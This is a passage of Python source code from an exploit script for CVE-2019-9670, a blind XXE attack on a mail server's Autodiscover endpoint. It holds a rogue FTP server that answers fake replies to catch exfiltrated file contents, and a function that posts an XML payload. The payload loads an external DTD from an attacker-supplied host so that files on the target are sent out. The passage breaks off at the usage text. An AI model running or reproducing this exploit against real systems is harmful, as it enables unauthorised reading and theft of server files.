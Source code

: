 ```

                #print("FTP: recvd '%s'" % bytes.decode(data))
                if "LIST" in bytes.decode(data):
                    self.conn.send(b"drwxrwxrwx 1 owner group          1 Feb 21 04:37 test\r\n")
                    self.conn.send(b"150 Opening BINARY mode data connection for /bin/ls\r\n")
                    self.conn.send(b"226 Transfer complete.\r\n")
                elif "USER" in bytes.decode(data):
                    self.conn.send(b"331 password please\r\n")
                elif "PORT" in bytes.decode(data):
                    self.conn.send(b"500 PORT command error\r\n")
                elif "RETR" in bytes.decode(data):
                    self.conn.send(b"500 Sorry.\r\n\r\n")
                else:
                    self.conn.send(b"230 more data please\r\n")


class FTPserver(threading.Thread):
    def __init__(self, port):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind(("0.0.0.0", port))
        threading.Thread.__init__(self)

    def run(self):
        self.sock.listen(5)
        while True:
            th = FTPserverThread(self.sock.accept())
            th.daemon = True
            th.start()

    def stop(self):
        self.sock.close()


def send_XXEPayload(xxeplatform_url, xxeplatform_http_port, target_url):

        xxe_data = r"""<!DOCTYPE Autodiscover [
        <!ENTITY % dtd SYSTEM "http://{xxeplatform_url}:{xxeplatform_http_port}/file.dtd">
        %dtd;
        ]>
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
    </Request>
</Autodiscover>""".format(xxeplatform_url=xxeplatform_url,xxeplatform_http_port=xxeplatform_http_port)

        headers = {
            "Content-Type":"application/xml"
        }

        r = requests.post("https://"+target_url+"/Autodiscover/Autodiscover.xml",data=xxe_data,headers=headers,verify=False,timeout=30)


if __name__ == '__main__':
    if len(sys.argv)!=5:
        print("blind_XXEPlatform_CVE-2019-9670.py") 
        print("It supports receiving results through HTTP or FTP protocol.")           
        print("Usage:")
```